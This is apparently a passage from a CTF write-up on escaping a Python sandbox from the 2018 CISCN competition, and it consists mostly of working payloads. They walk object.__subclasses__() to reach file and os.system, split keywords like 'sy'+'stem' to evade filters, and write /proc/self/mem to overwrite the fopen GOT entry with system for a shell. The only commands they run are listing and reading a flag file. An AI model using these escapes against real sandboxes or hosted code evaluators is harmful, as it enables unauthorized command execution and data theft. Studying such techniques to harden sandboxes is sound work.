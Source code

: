 
## writeModify got table
Is actually a memory operation method of **/proc/self/mem**
**/proc/self/mem** is a memory image that can be used to read and write all the memory of the process, including executable code. If we can get the offset of some functions of Python, such as **system**, We can then override the purpose of getshell by overriding the got.
```py

(lambda r,w:r.seek(0x08de2b8) or w.seek(0x08de8c8) or w.write(r.read(8)) or ().__class__.__bases__[0].__subclasses__()[40]('c'+'at /home/ctf/5c72a1d444cf3121a5d25f2db4147ebb'))(().__class__.__bases__[0].__subclasses__()[40]('/proc/self/mem','r'),().__class__.__bases__[0].__subclasses__()[40]('/proc/self/mem', 'w', 0))

```

The first address is the offset of system, the second is the offset of fopen, we can get the relevant information through **objdump**
![](http://oayoilchh.bkt.clouddn.com/18-5-3/25123674.jpg)



\#example2018 ciscn Python sandbox escape in the National University Information Security Competition.
We can get the title source by `print ().__class__.__bases__[0].__subclasses__()[40]("/home/ctf/sandbox.py").read()`, and then we can further analyze it. An escape method.
### Creating objects and using Python to manipulate string characteristics
```py

x = [x for x in [].__class__.__base__.__subclasses__() if x.__name__ == 'ca'+'tch_warnings'][0].__init__

x.__getattribute__("func_global"+"s")['linecache'].__dict__['o'+'s'].__dict__['sy'+'stem']('l'+'s')

x.__getattribute__("func_global"+"s")['linecache'].__dict__['o'+'s'].__dict__['sy'+'stem']('l'+'s /home/ctf')

x.__getattribute__("func_global"+"s")['linecache'].__dict__['o'+'s'].__dict__['sy'+'stem']('ca'+'t /home/ctf/5c72a1d444cf3121a5d25f2db4147ebb')

```

### Hijack got table getshell
```py

(lambda r,w:r.seek(0x08de2b8) or w.seek(0x08de8c8) or w.write(r.read(8)) or ().__class__.__bases__[0].__subclasses__()[40]('l'+'s /home/ctf/'))(().__class__.__bases__[0].__subclasses__()[40]('/proc/self/mem','r'),().__class__.__bases__[0].__subclasses__()[40]('/proc/self/mem', 'w', 0))





(lambda r,w:r.seek(0x08de2b8) or w.seek(0x08de8c8) or w.write(r.read(8)) or ().__class__.__bases__[0].__subclasses__()[40]('c'+'at /home/ctf/5c72a1d444cf3121a5d25f2db4147ebb'))(().__class__.__bases__[0].__subclasses__()[40]('/proc/self/mem','r'),().__class__.__bases__[0].__subclasses__()[40]('/proc/self/mem', 'w', 0))



```
